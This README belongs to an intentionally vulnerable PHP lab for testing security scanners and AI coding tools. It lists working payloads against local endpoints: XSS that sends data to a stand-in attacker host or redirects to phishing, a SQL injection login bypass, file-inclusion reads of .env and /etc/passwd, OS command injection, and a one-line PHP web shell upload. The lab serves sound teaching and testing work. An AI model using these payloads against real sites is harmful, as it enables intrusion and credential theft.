




# Security Testing PHP Codebase

## Overview
This repository contains intentionally vulnerable code designed to test AI-powered IDE tools and security scanners. The codebase serves as a testing ground to evaluate the effectiveness of various security analysis tools in detecting vulnerabilities.

## Purpose
- Test AI-powered IDE tools' ability to detect security vulnerabilities against PHP codebase. You can prompt the Agent to `What are the vulnerabilities in my code`.
- Evaluate security scanners' effectiveness in identifying common security issues.
- Provide a controlled environment for security testing.
- Serve as a reference for understanding common security vulnerabilities.
- Continuously expand with new vulnerabilities and security test cases over time.
- Demonstrate how sensitive environment variables such as in `.env` files can be exposed.

## Author
Created by Weng Fei Fung

## Usage
This repository is intended for:
- Security researchers
- AI tool developers
- Security testing professionals
- Educational purposes


## Setup

Run on a php server locally. This has been tested on PHP version 8.3.12. You can find your PHP version by running `php --version`. For the example vulnerabilities, you can setup Mamp and have this app folder as `hacks` at the root htdocs and set port to 8888, otherwise adjust the example vulnerability url's as appropriately.

## Example Vulnerabilities
- http://localhost:8888/hacks/echo/?name=%3Cscript%3Ealert(%22You%27re%20hacked%20by%20Weng%20Hackers%20Group!%22);%3C/script%3E
    - Cross-site scripting (XSS)
    - Here exploited to inject into URL's that users share with others a scary message. It's usually to ruin the reputation of a website or to boast that they're hacked by you.
    
    - Classification: 
        - CAPEC	19
        - CWE	79
        - WASC  8
        - OWASP 2021 A3
- http://localhost:8888/hacks/echo/?name=John%3Cscript%3Edocument.addEventListener(%22DOMContentLoaded%22,()=%3E{const%20d=document.createElement(%22div%22);d.innerHTML=`%3Cbutton%20onclick=%22fetch(%27https://domain.com/api/hacked%27,{method:%27POST%27,body:JSON.stringify({name:%27${name}%27})});%22%3EVerify%20you%20are%20human%3C/button%3E`;document.body.prepend(d)});%3C/script%3E
    - Cross-site scripting (XSS)
    - Here when URL is shared, injects a "Verify you're human" button, but it steals user data stored on the client (could be cookies) and sends it to another server at domain.com/api/hacked/, when the user clicks the button. Notice that is the hacker's server and that the hacker's server must have CORS enabled to accept paylods from other websites.
    - The URL contains a minified code snippet of:
    ```
    document.addEventListener("DOMContentLoaded", () => {
        const div = document.createElement('div');
        div.innerHTML = `<button onclick="fetch('https://domain.com/api/hacked', {
            method:  'POST',
            body: JSON.stringify({name: '${name}'})
        });">Verify you are human</button>`;
        document.body.prepend(div);
    })
    ```
- http://localhost:8888/hacks/echo/?name=hi4;%3Cscript%3Ewindow.location.href=%22https://domain.com%22%3C/script%3E
    - Cross-site scripting (XSS) with Phishing
    - Here when URL is shared, redirects user to hacker's website. Note the hacker could take things further by making the website look similar to the website the url normally opens to, and then tricks the user to logging in, which can easily store the user credentials since the page is on the hacker's server.
- http://localhost:8888/hacks/sql-xss/
    - SQL Injection (SQLi)
    - Here exploited by storing javascript that renders on a comments page. It's usually to ruin the reputation of a website or to boast that they're hacked by you. A hacker can take it further by having the javascript send cookies information about the logged in user to an external server in order to gain their credentials, simply done with fetch and enabling CORS on the hacker's private server.
    
    
    - The code injected into MySQL is:
    ```
    <script>alert("You're hacked by Weng Hackers Group!");</script>
    ```
    - Classification: 
        - CAPEC	66
        - CWE	89
        - WASC	19
        - OWASP 2021	A3

- http://localhost:8888/hacks/sql-auth/
    - SQL Injection (SQLi) with Authentication Bypass 
    - Username: `' OR 1=1 --'`. Note usually, you don't enter the single quote at the end of the username: `' OR 1=1 --`. Try both variations.
    - Password doesn't matter. You will be logged in successfully without knowing the user's password. Just enter anything in password.
    - Not the usual case: Here it lists all the users, but this hack does not necessarily do this. Usually the developer does not render debug information of what user(s) matched in a MySQL query. Here we render for debugging purposes and to highlight the importance of hashing the passwords. Even if it gets dumped, these hashes are computationally impractical timewise to reverse engineer back into plain passwords.
    - How it works:
    - This query `SELECT id, username, password FROM users WHERE username = '$username' AND password = '$password` got corrupted into `SELECT id, username, password FROM users WHERE username = '' OR 1=1 --....` where the username field terminated early and is unioned into truthy "1=1". The password requirement for matching where has been dropped off where `--` is because that makes everything after it become a comment!
    - On the off chance that the code checks password AND username, rather than username AND password, then you can try the 1=1 in the password instead. Or review your team member's code.
    - 
- http://localhost:8888/hacks/commands-php/?user-role=admin;phpinfo();
    - Remote Code Execution (RCE)
    - Here exploited to reveal PHP information that can be used for further attacks.
    - Classification: 
        - CAPEC	23
        - CWE	95
        - OWASP 2021	A3
- http://localhost:8888/hacks/open-file/?filepath=../.env
    - Local file inclusion (LFI)
    - Here gained access to .env file for API keys
    - Classification: 
        - CAPEC	252
        - CWE	98
        - WASC	33
        - OWASP 2021 A1
- http://localhost:8888/hacks/open-file/?filepath=%2e.%2f.env
    - Local file inclusion (LFI)
    - Here worked around naive regex security against LFI's `../`
- http://localhost:8888/hacks/open-file/?filepath=../etc/passwd
    - Directory traversal attack (DTA)
    - Here hacker would've broke out of the web document root folder with more `../`'s and accessed the credentials
    - Classification: 
        - CAPEC	126
        - CWE	23
        - WASC	33
        - OWASP 2021	A1
- http://localhost:8888/hacks/commands-shell/grep.php?search=at
    - Baseline use (Not hacked). But will be used to OS command injection
- http://localhost:8888/hacks/commands-shell/grep.php?search=at%20;ls%20.;
    - OS command injection
    - Here gained access to directory still within the web document root folder
    - Injected between grep command and a grep option.
    - Classification: 
        - CAPEC	88
        - CWE	78
        - WASC	31
        - OWASP 2021	A3
- http://localhost:8888/hacks/commands-shell/find.php?search=at;ls%20.;
    - OS command injection
    - Here gained access to directory still within the web document root folder
    - Injected at the end of the find command.
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20whoami
    - ... Here gained access to username of the PHP server
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20ps%20aux
    - ... Here gained access to a list of processes running at the server
- http://localhost:8888/hacks/commands-shell/find.php?search=at;%20netstat%20-tuln
    - ... Here gained access to network information
    - `lsof -P` is another way for more network information (Eg. `TCP localhost:5001 (LISTEN)` output telling you a port is listening at the server)
    - `iptables`, `firewalld`, etc to inspect allowed ports.
- http://localhost:8888/hacks/uploader
    - Vulnerabilities may exist or not depending on the PHP environment and OS
    - Passed on MacBook Pro M1 running MAMP PHP v8.3.12 local server:
        - File Upload Bypass Leading to Directory Traversal
            - Tested by uploading filename `../../../test.txt` and filename `..%2F..%2F..%2Ftest.txt`. If file able to place outside the expected upload folder, then the hacker can place htaccess and other files by naming the file with preceding `../`'s
            - Would solve with: `$safeName = basename($_FILES['file']['name']);`
        - File Upload Bypass Leading to Remote Code Execuion (RCE)
            - Tested by uploading `hacked.php.jpg`, which bypasses whitelisting certain file extensions as acceptable uploads, and then running it in web browser actually executes the php. Then the hacker can run php code like shell_exec, phpinfo, etc that will expose the system. The hacker could also add a $_GET parameter that takes commands and runs them, as the PHP server privilege with a php.jpg script that is written `<?php system($_GET['cmd']); ?>`, and commands they can load to help hack your server could be `?cmd=whoami` to get the username of the php server that they can brute force in later.
            - You could fix in various ways. One way is to change all periods to hyphen except the final period for file extension. Another way is to enforce strict file extension and MIME types. Another way is to restrict all uploads to one folder by getting only basename, and also restricting that folder chmod from execution and in apache or nginx you can disable php execution in that folder.
    - Failed on MacBook Pro M1 running MAMP PHP v8.3.12 local server:
        - File Upload Bypass Leading to XSS
            - Uploaded file `">.jpg` which immediately alerted a 1. Now I increase the complexity of the upload bypass xss by introducing other quotes by uploading a file `">.jpg`, and that also caused an alert (showing the word "Hacked").
            - This means the hacker can inject even more severe code such as stealing cookies and sending them to an external server (the hacker's server should have enabled CORS).
    - Other Considerations (Not considered by our sample code)
        - Whitelist / allow only specific file extensions and MIME at frontend where user interacts with Upload interface AS WELL as backend where the temp file is created and moved to final destination.
        - If not whitelist and instead blocking file extensions, you can't simply block them all. Here's an article of an ethical hacker uploading a pHp5 file extension (notice variation in the capitalization): https://sagarsajeev.medium.com/file-upload-bypass-to-rce-76991b47ad8f


## Warning
⚠️ **IMPORTANT**: This repository contains intentionally vulnerable code. Do not deploy this code in production environments or expose it to untrusted networks. Use only in controlled testing environments.

## Disclaimer
This code is provided for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the code in this repository.
